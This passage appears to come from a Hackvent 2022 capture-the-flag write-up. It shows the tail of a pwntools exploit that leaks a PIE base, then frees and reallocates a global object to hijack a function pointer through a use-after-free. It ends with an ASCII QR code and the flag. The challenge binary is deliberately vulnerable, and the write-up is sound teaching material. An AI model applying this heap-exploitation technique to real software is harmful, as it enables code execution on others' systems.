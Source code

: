 ```python
    res = io.recvline()[:-1]
    res = u64(res.ljust(8, b'\x00'))
    exe.address = res - (exe.sym['menu'] + 91)
    log.info(f"Pie base: {hex(exe.address)}")

with log.progress("Freeing global variable"):
    io.recvuntil(b'>')
    io.sendline(b'3') # frees the shop
    io.recvline()
    io.recvline()

with log.progress("Writing address of win function"):
    io.sendline(b'4')
    io.recvline()
    io.sendline(b'48') # Same size as the global variable -> forces re-use
    io.recvline()
    io.sendline(b'A' * 0x28 + p64(exe.sym['present'])) # address of the win function

with log.progress("Trigger UAF / arbitrary code excecution"):
    io.sendline(b'2')
    io.recvline()

io.interactive()
```

And we obtain the following flag file:
```
        ##############  ##    ####  ####    ##############
        ##          ##  ######  ######  ##  ##          ##
        ##  ######  ##      ##############  ##  ######  ##
        ##  ######  ##      ##    ####  ##  ##  ######  ##
        ##  ######  ##  ########        ##  ##  ######  ##
        ##          ##  ##    ##    ##  ##  ##          ##
        ##############  ##  ##  ##  ##  ##  ##############
                        ##  ######  ######
        ######    ####  ######    ######  ########    ####
        ####  ####    ##  ####    ##    ######        ####
        ######      ######    ##      ##    ##    ##  ####
        ####  ##      ##  ##      ##  ####    ####      ##
            ####  ####    ##  ######        ##  ##      ##
          ##              ##    ##      ####  ##      ##
        ####    ##  ########    ########      ##  ##    ##
            ##        ##      ####  ####  ##########
        ####  ########  ##        ################    ##
                        ##        ########      ##  ##
        ##############    ##  ##        ##  ##  ##      ##
        ##          ##  ######    ##    ##      ####  ####
        ##  ######  ##    ##  ######  ############  ######
        ##  ######  ##      ##  ##        ##          ##
        ##  ######  ##  ######  ########    ##  ##########
        ##          ##  ##    ####  ##    ##  ######
        ##############  ##        ####  ######  ##  ##  ##
```

All we have to do now is to make it better readable and scan the QR code to get the flag `HV22{PWN_4_TH3_W1n}`.

